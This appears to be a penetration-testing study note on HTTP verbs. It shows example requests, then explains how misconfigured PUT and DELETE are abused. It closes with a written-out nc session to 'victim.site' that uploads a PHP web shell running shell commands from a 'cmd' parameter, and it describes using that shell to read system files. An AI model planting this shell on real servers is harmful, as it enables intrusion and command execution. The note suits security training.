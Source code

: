 # HTTP Verbs

## HTTP Verbs

### **GET**

* Used to request a resource.

```
GET /page.php HTTP/1.1
Host: www.example.site
```

* Can pass arguments. To pass "course=PTS" to page.php, the request will be:

```
GET /page.php?course=PTS HTTP/1.1
Host: www.example.site
```

### **POST**

* Used to submit HTML form data
* Parameters must be in the **message body**

```
POST /login.php HTTP/1.1
Host: www.example.site

username=john&password=mypass
```

### **HEAD**

* Asks just headers of the response instead of the response body

```
HEAD / HTTP/1.1
Host: www.example.site
```

### **PUT**

* Used to **upload** a file to the server
* very dangerous if it is allowed and misconfigured

```
PUT /path/to/destination HTTP/1.1
Host: www.example.site

<PUT data>
```

### **DELETE**

* Used to remove a file from the server
* must be configured wisely as a misused DELETE leads to DOS and data loss

```
DELETE /path/to/destination HTTP/1.1
Host: www.example.site
```

### **OPTIONS**

* Used to query the web server for enabled HTTP Verbs

```
OPTIONS / HTTP/1.1
Host: www.example.site
```

#### Rest APIs

* Represenbtational State Transfer Applicatoin Programming INterface
* Specific type of web app that reslies strongly on almosdt all HTTP verbs
* Common for these apps to use "PUT" for saving data/creating new content and not for saving files
* During a pentest, confirm impact of "PUT/DELETE" method twice before reporting it found
  * After issuing a PUT request, try to look for the existence of the file you created

## Using HTTP 1.0 Syntax

* Using HTTP 1.1 implies also sending a `Host:` header in the request.
* If you use HTTP 1.0, you can skip it

## Exploiting Misconfigured HTTP Verbs

### Enumeration with OPTIONS

* enumerate available methods or verbs

![](<../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (2).png>)

### Exploiting DELETE

![](<../../../../.gitbook/assets/image (21) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

![Logging in becomes impossible for every user](<../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png>)

### Exploiting PUT

* you have to know the size of the file you want to upload on the server

![](<../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png>)

* You can then use the size you got to build the PUT message
  * Example: Upload a page displaying info about the PHP installation on a server

![](<../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png>)

### Uploading a PHP Shell with PUT

![](<../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* This can be used by passing our commands via the cmd GET parameter

![](<../../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* The shell has the same permissions of the web server it runs on.
* For example, we can write a file

![](<../../../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* We can also read it

![](<../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png>)

* And we can even read a system file

![](<../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

{% hint style="warning" %}
Remember that PUT requires that we pass the content length. So we have to know the shell size
{% endhint %}

![](<../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* We can then build a valid PUT request

```bash
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

<?php
if (isset($_GET['cmd']))
{
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
}
?>
```

